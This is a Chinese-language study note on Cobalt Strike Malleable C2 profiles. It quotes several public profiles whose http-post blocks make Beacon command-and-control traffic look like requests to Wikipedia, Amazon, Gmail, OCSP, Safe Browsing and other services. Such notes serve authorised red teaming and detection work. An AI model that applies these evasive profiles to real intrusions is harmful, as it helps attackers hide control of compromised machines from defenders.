

## cs modify c2 profile

	./teamserver -h
	[*] Will use existing X509 certificate and keystore (for SSL)
	[*] ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]
	
		<host> is the (default) IP address of this Cobalt Strike team server
		<password> is the shared password to connect to this server
		[/path/to/c2.profile] is your Malleable C2 profile
		[YYYY-MM-DD] is a kill date for Beacon payloads run from this server

[MalleableC2Profiles](https://github.com/bluscreenofjeff/MalleableC2Profiles)

以微软更新[c2 profile](https://github.com/bluscreenofjeff/MalleableC2Profiles/blob/master/microsoftupdate_getonly.profile)为例：

以 [wiki profile](https://github.com/bluscreenofjeff/MalleableC2Profiles/blob/master/wikipedia_getonly.profile)为例：

	
	http-post {
	    
	    set uri "/wiki";
	    set verb "GET";
	
	    client {
	
	        header "Host" "en.wikipedia.org";
	        header "Accept" "text/html,application/xhtml+xml,application/xml;";
	
	        #session ID
	        id {
	            base64url;
	            prepend "/";
	            uri-append;
	        }
	
	
	        #Beacon's responses
	        output {
	            base64url;
	            prepend "https://en.wikipedia.org/w/index.php?search=";
	            append "&title=Special%3ASearch&go=Go";
	            header "Referer";
	        }
	    }

**上面的 output 写在client节点下面并指定 header "Referer"，意思是post请求的参数 Referer中保存交互指令。**

以 [amazon.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/amazon.profile)为例：

	http-post {
	    
	    set uri "/N4215/adj/amzn.us.sr.aps";
	
	    client {
	
	        header "Accept" "*/*";
	        header "Content-Type" "text/xml";
	        header "X-Requested-With" "XMLHttpRequest";
	        header "Host" "www.amazon.com";
	
	        parameter "sz" "160x600";
	        parameter "oe" "oe=ISO-8859-1;";
	
	        id {
	            parameter "sn";
	        }
	
	        parameter "s" "3717";
	        parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";
	
	        output {
	            base64;
	            print;
	        }
	    }
	
	    server {
	
	        header "Server" "Server";
	        header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";
	        header "x-amz-id-2" "a21JZ1xrNDNtdGRsa219bGV3YW85amZuZW9zdG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
	        header "X-Frame-Options" "SAMEORIGIN";
	        header "x-ua-compatible" "IE=edge";
	
	        output {
	            print;
	        }
	    }
	}

没指定payload的参数，则默认在post请求体里：

以 [gmail.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/gmail.profile)为例：

	http-post {
		set uri "/mail/u/0/";
		client {
			parameter "ui" "d3244c4707";
			parameter "hop" "6928632";
			parameter "start" "0";
			header "Content-Type" "application/x-www-form-urlencoded;charset=utf-8";
	
			id {
				base64;
				prepend "OSID=";
				header "Cookie";
	        }
	
			output{
				base64;
				print;
			}
		}
	
		server {
			header "X-Content-Type-Options" "nosniff";
			header "X-Frame-Options" "SAMEORIGIN";
			header "Cache-Control" "no-cache, no-store, max-age=0, must-revalidate";
			header "X-XSS-Protection" "1; mode=block";
			header "Server" "GSE";
	
			output {
	
				prepend "[[[\"apm\",\"";
	
				append "\"]";
				append ",[\"ci\",[]";
				append "]";
				append ",[\"cm\",[]";
				append ",[]";
				append "]";
				append "],'dbb8796a80d45e1f']";
	
				print;
			}	
		}
	}

没指定payload的参数，则默认在post请求体里：

[ocsp.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/ocsp.profile)

	http-post {
	
	    set uri "/oscp/a/";
	
	    client {
	
	        header "Accept" "*/*";
	        header "Host" "ocsp.verisign.com";
	        
	        id {
	            netbios;
	            uri-append;
	        }
	
	        output {
	            print;
	        }
	    }
	
	    server {
	        header "Content-Type" "application/ocsp-response";
	        header "content-transfer-encoding" "binary";
	        header "Cache-Control" "max-age=547738, public, no-transform, must-revalidate";
	        header "Connection" "keep-alive";
	
	        output {
	            print;
	        }
	    }
	}

[rtmp.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/rtmp.profile)

	http-post {
	    
	    set uri "/send/1376547834/";
	
	    client {
	
	        header "Accept" "*/*";
	        header "Connection" "Keep-Alive";
	        header "Cache-Control" "no-cache";
	        header "Content-Type" "application/x-fcs";
	
	        id {
	            uri-append;
	        }
	
	        output {
	            print;
	        }
	    }
	
	    server {
	
	        header "Content-Type" "application/x-fcs";
	        header "Connection" "Keep-Alive";
	        header "Server" "FlashCom/3.5.7";
	        header "Cache-Control" "no-cache";
	
	        output {
	            print;
	        }
	    }
	}

[safebrowsing.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/safebrowsing.profile)

	http-post {
	    
	    set uri "/safebrowsing/rd/CINnu27nLO8hbHdfgmUtc2ihdmFyEAcY4";
	
	    client {
	        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
	        header "Accept-Language" "en-US,en;q=0.5";
	        header "Accept-Encoding" "gzip, deflate";
	        
	        id {
	            netbios;
	            prepend "U=779b64e1a7ed737a";
	            prepend "PREF=ID=";
	            header "Cookie";
	        }
	        
	        output {
	            print;
	        }
	    }
	
	    server {
	        header "Content-Type" "application/vnd.google.safebrowsing-chunk";
	        header "X-Content-Type-Options" "nosniff";
	        header "Content-Encoding" "gzip";
	        header "X-XSS-Protection" "1; mode=block";
	        header "X-Frame-Options" "SAMEORIGIN";
	        header "Cache-Control" "public,max-age=172800";
	        header "Age" "1222";
	        header "Alternate-Protocol" "80:quic";
	        output {
	            print;
	        }
	    }
	}

[webbug.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/webbug.profile)

	http-post {
		set uri "/___utm.gif";
		client {
			header "Content-Type" "application/octet-stream";
	
			id {
				prepend "UA-220";
				append "-2";
				parameter "utmac";
			}
	
			parameter "utmcn" "1";
			parameter "utmcs" "ISO-8859-1";
			parameter "utmsr" "1280x1024";
			parameter "utmsc" "32-bit";
			parameter "utmul" "en-US";
	
			output {
				print;
			}
		}
	
		server {
			header "Content-Type" "image/gif";
	
			output {
				prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
				prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
				prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
				print;
			}
		}
	}

## reference

[Cobalt Strike从入门到精通之定制配置文件进行高级攻击](https://www.cnblogs.com/fxsec/p/14431502.html)

https://github.com/bluscreenofjeff/MalleableC2Profiles

https://github.com/rsmudge/Malleable-C2-Profiles/tree/master/normal

https://github.com/threatexpress/malleable-c2

[在线字符串长度计算](http://www.txttool.com/wenben_count.asp)

[A Deep Dive into Cobalt Strike Malleable C2](http://threatexpress.com/blogs/2018/a-deep-dive-into-cobalt-strike-malleable-c2/)

